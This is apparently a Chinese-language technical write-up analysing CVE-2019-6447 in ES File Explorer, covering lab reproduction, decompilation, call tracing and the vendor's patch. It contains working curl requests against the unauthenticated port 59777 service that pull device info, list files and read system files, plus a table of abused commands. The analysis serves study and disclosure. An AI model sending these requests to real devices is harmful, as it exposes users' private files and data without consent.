

# ES 文件浏览器安全漏洞分析(CVE-2019-6447)

## 前言

ES 文件浏览器(ES File Explorer File Manager application)是一款安卓系统上的文件管理器，它支持在手机上浏览、管理文件。有超过 1 亿次下载量，是目前安卓系统上使用得最广的文件管理器。

2019年1月，由国外安全研究者公开一个关于 ES 文件浏览器的安全漏洞(CVE-2019-6447)。

## 漏洞概述

ES 文件浏览器在运行时会创建一个绑定在 59777 端口的 HTTP 服务，在该服务提供了 10+ 个命令，用于访问用户手机的数据以及执行应用程序；但该服务并没有对请求进行校验，从而导致出现安全漏洞。

## 漏洞复现

### 复现环境

- windows 11
- ES 文件浏览器v4.1.9.4
- ES 文件浏览器v4.1.9.9.3
- Vmware
- Android 9
- ADB

### 复现过程

首先查看一下安卓手机的 `IP`地址



在宿主机上使用 `ADB` 连接安卓手机

```bash
adb connect 198.168.5.129
```


接下来安装 ES 文件浏览器v4.1.9.4 到设备上，使用命令

```bash
adb install ..\com-estrongs-android-pop.apk
```


在手机上可以看到 ES 文件浏览器已经安装成功，启动该应用


通过 ADB 查看当前网络端口情况，首先进入 `ADB shell` ，接着使用命令 `netstat -ant` 查看端口开放情况


可以看到 `59777` 端口已经打开。

接下来构造 HTTP 数据报文，将命令封装至 `Json` 数据中，请求 `59777` 端口；这里演示 `getDeviceInfo`命令，可以看到成功返回了设备的信息。

```bash
curl --header "Content-Type: application/json" --request POST --data "{\"command\":\"getDeviceInfo\"}" http://192.168.5.129:59777
```


命令执行示例(列出所有的文件)：

```bash
curl --header "Content-Type: application/json" --request POST --data "{\"command\":\"listFiles\"}" http://192.168.5.129:59777
```


## 漏洞分析

对 ES 文件浏览器v4.1.9.4 进行分析，首先使用查壳工具对该 `APK` 进行分析


发现并没有加壳，这就减少了脱壳的麻烦。接下来将该 APK 进行解压，可以看到其中包含了三个 `*.dex` 文件。使用 dex2jar 工具分别这三个文件进行反编译，得到三个 `*.jar` 文件。


dex2jar 工具的命令为

```bash
d2j-dex2jar <dexFilePath> -o <outputJarFilePath>
```

> 参数：
> 
> - `dexFilePath`： 要反编译的 `.dex` 文件的文件路径。
> - `outputJarFilePath`： 反编译后输出的 `.jar` 文件的文件路径。

接着使用 `jd-gui` 打开反编译后的文件，使用关键词搜索 `59777`、`command`、`getDeviceInfo` 以快速定位到漏洞逻辑部分，其位于 `classes2-dex2jar.jar` 下的 `com.estrongs.android.f.a` 路径下。


```java
if (paramString2.equals("POST"))
    {
      localObject = new String(g());
      try
      {
        localObject = new JSONObject((String)localObject);
        String str = ((JSONObject)localObject).getString("command");
        if (str.equals("listFiles")) {
          return b(paramString1);
        }
        if (str.equals("listPics")) {
          return d();
        }
        if (str.equals("listVideos")) {
          return e();
        }
        if (str.equals("listAudios")) {
          return f();
        }
        if (str.equals("listApps")) {
          return a(0);
        }
        if (str.equals("listAppsSystem")) {
          return a(1);
        }
        if (str.equals("listAppsPhone")) {
          return a(2);
        }
        if (str.equals("listAppsSdcard")) {
          return a(3);
        }
        if (str.equals("listAppsAll")) {
          return a(4);
        }
        if (str.equals("getAppThumbnail")) {
          return d((JSONObject)localObject);
        }
        if (str.equals("appLaunch")) {
          return a((JSONObject)localObject);
        }
        if (str.equals("appPull")) {
          return c((JSONObject)localObject);
        }
        if (str.equals("getDeviceInfo"))
        {
          paramString1 = b((JSONObject)localObject);
          return paramString1;
        }
      }
      catch (JSONException paramString1)
      {
        paramString1.printStackTrace();
        return new c.b(this, "500 Internal Server Error", "text/plain", paramString1.toString());
      }
    }
```

首先判断是不是 `post`数据，如果是 `post`请求则对 `content-type`进行解析，解析对应的 `command`调用对应的功能函数后返回 `json`。

下面来看下整个漏洞的触发过程，由于混淆代码不管是丢进 `jeb`中还是 `smali`阅读起来都比较费力，为此我们可以先动态的将程序跑一边后记录 `trace`，分析 `android trace`文件来查看函数调用栈（利用 `TraceReader`读取）。

使用 `DDMS`工具监视特定进程中的正在进行的进程和线程，选择我们要监视的进程 `com.estrongs.android.pop`，点击 `start method profiling` 


选择 `trace based profiling`


点击确定后，使用获得设备信息的 `POC`

```bash
curl --header "Content-Type: application/json" --request POST --data "{\"command\":\"getDeviceInfo\"}" http://192.168.5.129:59777 -vvv
```

接下来关闭`method profiling` 就可以得到对应的 `trace` 文件


把 `trace`文件丢到 `TraceReader`查看调用栈，可以发现程序进入 `com/estrongs/android/f/c$a.run()V` 来处理了我们的请求，注意这里的类的实例化对象其实是 `a.class`而不是 `c.class`。


首先接受 `socket`然后读到 `buffer`中提取数据


然后判断是不是 `post`数据，如果是 `post`请求则对 `content-type`进行解析，当所有的前置解析完成后最后程序会来到 `label_189`处


`label_189`中，执行了 `v2_7 = this.a.a_parse_url_other_data(v9, v10, v11, v6, v7);`来进一步解析并执行相应的 `command`。


继续追踪下去来到就来到了我们一开始漏洞触发的地方( `com/estrongs/android/f/a.a`)


解析对应的 `command`调用对应的功能函数后返回 `json`


最后进入 `com/estrongs/android/f/c$a.a(Ljava/lang/String;Ljava/lang/String;Ljava/util/Properties;Ljava/io/InputStream;)V`将 `response`写回


该函数将输出的结果写入到 `OutputStream`中然后将其返回。


该 ES 版本整个漏洞的触发流程大致就如上所示。

上述代码中，可以看到除了 `getDeviceInfo` 命令，该 HTTP 服务还支持不少的命令：

| command | description |
| --- | --- |
| listFiles | 列出所有的文件 |
| listPics | 列出所有的图片 |
| listVideos | 列出所有的视频 |
| listAudios | 列出所有的音频 |
| listApps | 列出安装的应用 |
| listAppsSystem | 列出系统自带的应用 |
| listAppsPhone | 列出通信相关的应用 |
| listAppsSdcard | 列出安装在sd卡上的应用 |
| listAppsAll | 列出所有的应用 |
| getAppThumbnail | 列出指定应用的图标 |
| appLaunch | 启动制定的应用 |
| appPull | 从设备上下载应用 |
| getDeviceInfo | 获取系统信息 |

除了以上列出的命令，还可以直接访问 `url+系统文件路径`，直接访问文件数据：

```bash
curl --header "Content-Type: application/json" http://192.168.5.129:59777/etc/init.sh
```


通过以上的功能逻辑可以看到，HTTP 服务是 ES 文件浏览器的一个内置功能，可能是用于不同设备之间的共享，但由于没有对请求进行校验，导致安全问题的出现。

## **补丁分析**

`v4.1.9.9.3`版本可能重新进行了代码混淆，其反编译后的机构和 `v4.1.9.4` 有很大的差别；我们仍然使用关键词搜索来快速定位到之前的漏洞逻辑部分。位于 `classes3-dex2jar.jar` 下的 `es.qg` 路径下。


可以看到，相比之前的逻辑这里增加了一个判断，我们继续跟进 `ap.d()` 这个函数


其中两个比较关键的函数是 `c()` 和 `e(FexApplication.c())` ，我们跟进这两个函数


该函数获取了 `UIModeManager` 对象，当该对象的类型等于 `4` 时，返回 `true`，通过查阅官方文档，在该处数值 `4` 对应的类型为 `UI_MODE_TYPE_TELEVISION`，也就是安卓TV的类型。说明官方将该功能限制在安卓TV的设备上了。


该函数依然是对安卓TV的判断，在上一步函数获取了屏幕的尺寸并转换成了一个值，在该处判断值要大于等于 `20`，才能返回 `true`。

## 总结

通过以上的分析，可以完整的了解到 ES 文件浏览器安全漏洞的触发过程以及补丁情况；整体看来就是，开发者在设计共享访问功能的时候忽略对请求的检查，从而导致的安全漏洞。